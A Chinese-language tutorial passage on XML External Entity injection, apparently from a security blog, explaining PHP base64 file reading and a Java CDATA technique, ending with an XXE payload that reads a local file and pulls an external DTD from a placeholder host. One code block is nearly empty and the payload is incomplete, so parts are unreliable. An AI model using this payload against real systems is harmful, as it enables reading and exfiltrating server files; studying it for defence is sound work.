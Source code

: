 如果目标环境是 PHP 的，这个时候就可以使用 PHP 协议，用 base64 编码去读取

```php
 ]>
```

![image.png](assets/1700812438-057dc3c6a357ca2d39bb3a056afac653.png)

在 Java 环境中，我们可以使用 CDATA 来读取包含特殊字符的文本数据，避免 XML 解析器对其进行解析。

CDATA 部分用于包含可能会被 XML 解析器误解为标记的文本。比如，一段文本中包含"<"或"&"等字符，这些字符在 XML 中具有特殊含义，如果直接包含在 XML 文档中可能会导致解析错误。使用 CDATA 部分可以避免这种问题，因为 CDATA 部分中的所有内容都会被 XML 解析器忽略。

在 Java 中，我们可以使用以下方式将文本数据包含在 CDATA 部分中：

```php
String data = "<![CDATA[这里是文本数据]]>";
```

在这个例子中，"这里是文本数据"是包含在 CDATA 部分中的文本数据。当这段文本数据被 XML 解析器解析时，解析器会忽略 CDATA 部分，只将其中的内容当作普通的文本数据处理。

使用 CDATA 部分是一种在 XML 文档中包含特殊字符文本的有效方式。同时，在 Java 环境中，我们也可以利用这个特性来读取和处理这类文本数据。

**payload:**

```php
<?xml version="1.0" encoding="utf-8"?> 
   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/1.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```
